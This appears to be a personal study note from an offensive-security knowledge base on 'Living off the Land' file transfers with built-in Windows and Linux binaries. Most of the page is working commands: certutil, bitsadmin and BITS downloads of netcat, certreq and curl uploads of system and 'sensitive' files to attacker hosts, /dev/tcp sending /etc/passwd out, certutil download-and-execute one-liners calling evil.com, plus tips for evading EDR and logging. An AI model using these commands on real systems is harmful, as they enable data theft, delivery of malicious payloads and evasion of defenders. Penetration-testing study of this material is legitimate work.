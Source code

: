 ```yaml
---
tags: [lotl, living-off-the-land, file-transfer, stealth, evasion, lolbas, gtfobins]
aliases: [Living off the Land, LOTL, LOLBAS, GTFOBins]
---
```


# 🥷 Living Off The Land (LOTL) File Transfers

[[📁 File Transfer Master Index|← Back to Master Index]]

## 📖 Concept

The term _Living off the Land_ was coined by **@obscuresec** & **@mattifestation** and refers to leveraging built-in binaries on **Windows** and **Linux** systems to perform tasks like:

- 📤 **Uploads**
- 📥 **Downloads**
- ⚙️ **Execution**
- 📖 **File access**
- 🔐 **Bypasses**

> **Why LOTL?** Reduces the need for external tools, helping evade EDRs, AVs, and logging solutions.

---

## 🔧 Essential Resources

### 🪟 **Windows – LOLBAS**
> A catalog of Living off the Land Binaries And Scripts for Windows.
- [https://lolbas-project.github.io/](https://lolbas-project.github.io/)

### 🐧 **Linux – GTFOBins**
> A curated list of Unix binaries that can be abused by attackers or red teamers.
- [https://gtfobins.github.io/](https://gtfobins.github.io/)

**Useful filters:**
```
/download
/upload
+file read
+file write
```

---

## 🪟 Windows LOTL Examples

### 📤 Upload Using `certreq.exe`
**From target system:**
```cmd
certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

**On attack server (catch file):**
```bash
sudo nc -lvnp 8000
```

> ⚠️ **Note:** Some versions of `certreq.exe` do not support the `-Post` parameter.

### 📥 Download Using `bitsadmin`
```cmd
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\Public\nc.exe
```
- Mimics Windows Update traffic
- Bypasses many proxy restrictions

### 📥 PowerShell BITS Transfer
```powershell
Import-Module bitstransfer
Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```
- Supports proxies and credentials
- Runs in background

### 📥 Download Using `certutil.exe`
```cmd
certutil.exe -urlcache -f http://10.10.10.32:8000/nc.exe nc.exe
```
- Originally for certificate operations
- Commonly used as wget replacement

### 📤 Upload Using `curl.exe` (Windows 10+)
```cmd
curl.exe -X POST -F "file=@C:\sensitive.txt" http://attacker.com/upload
```

---

## 🐧 Linux LOTL Examples

### 📥 Download Using OpenSSL

**On attacker (start SSL server):**
```bash
# Generate certificate
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Start server
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/file.sh
```

**On target (download file):**
```bash
openssl s_client -connect 10.10.10.32:80 -quiet > file.sh
```

### 📥 Download Using `/dev/tcp`
```bash
exec 3<>/dev/tcp/10.10.14.1/80
echo -e "GET /file.sh HTTP/1.1\r\nHost: 10.10.14.1\r\n\r\n" >&3
cat <&3 > file.sh
```

### 📤 Upload Using `/dev/tcp`
```bash
exec 3<>/dev/tcp/10.10.14.1/9999
cat /etc/passwd >&3
exec 3>&-
```

### 📥 Download Using `awk`
```bash
awk 'BEGIN {
  print "GET /file HTTP/1.0\r\n" |& "/inet/tcp/0/10.10.14.1/80"
  while (("/inet/tcp/0/10.10.14.1/80" |& getline) > 0)
    print $0
}'
```

---

## 🎯 LOTL Quick Reference Matrix

| Binary | OS | Download | Upload | Proxy Support | Stealth |
|--------|-----|----------|--------|---------------|---------|
| certutil | Win | ✅ | ❌ | ✅ | ⭐⭐⭐ |
| bitsadmin | Win | ✅ | ❌ | ✅ | ⭐⭐⭐⭐ |
| certreq | Win | ❌ | ✅ | ❌ | ⭐⭐⭐ |
| curl.exe | Win10+ | ✅ | ✅ | ✅ | ⭐⭐ |
| openssl | Linux | ✅ | ✅ | ❌ | ⭐⭐⭐⭐ |
| /dev/tcp | Linux | ✅ | ✅ | ❌ | ⭐⭐⭐ |
| awk | Linux | ✅ | ✅ | ❌ | ⭐⭐⭐ |

---

## 💡 Advanced Techniques

### Chaining LOTL Binaries
```powershell
# Download + Execute in one line
certutil -urlcache -f http://evil.com/p.exe p.exe & p.exe
```

### Obfuscation
```cmd
# Using alternate data streams
certutil -urlcache -f http://evil.com/p.exe file.txt:p.exe
```

### Time-based Evasion
```cmd
# Delay execution using timeout
timeout /t 60 & certutil -urlcache -f http://evil.com/p.exe p.exe
```

---

## 🛡️ Detection & Evasion

### Common Detection Points
- ❌ Unusual certutil network connections
- ❌ Bitsadmin creating executables
- ❌ OpenSSL client connections
- ❌ Suspicious /dev/tcp usage

### Evasion Strategies
1. **Use common ports**: 80, 443, 8080
2. **Mimic legitimate traffic**: User-Agent strings
3. **Time-based execution**: Business hours
4. **Encrypt payloads**: Base64, XOR
5. **Chain multiple techniques**: Reduce individual IoCs

---

## 📚 Related Topics
- [[Detect or be Detected/Evade Detection|Evasion Techniques]]
- [[Detect or be Detected/Detection - How Malicious File Transfers Are Caught|Detection Methods]]
- [[Windows File Transfer Methods|Windows Methods]]
- [[Linux File Transfer Methods|Linux Methods]]
- [[Protected File Transfers|Encrypted Transfers]]

---

## 🏷️ Tags
#lotl #living-off-the-land #file-transfer #stealth #evasion #lolbas #gtfobins #post-exploitation